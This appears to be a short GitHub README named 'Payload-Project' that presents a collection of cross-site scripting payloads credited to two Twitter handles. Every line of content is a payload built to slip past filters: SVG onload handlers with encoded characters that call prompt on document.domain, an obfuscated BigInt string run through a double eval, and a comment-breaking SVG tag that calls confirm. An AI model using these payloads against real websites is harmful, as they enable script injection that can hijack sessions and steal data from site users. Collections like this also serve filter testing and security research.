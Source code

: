 # Payload-Project
A collection of XSS payloads 

Twitter : @bohdansec

<svg onload=prompt%26%230000000040document.domain)>
<svg onload=prompt%26%23x000000028;document.domain)>
  
Twitter : @aemkei

x = 91419154914591629164950961951n;[`'${x}'`.replace(/9/g, "\\")].map(eval).map(eval)

--><Svg OnLoad=(confirm)(`XSS`)><!--


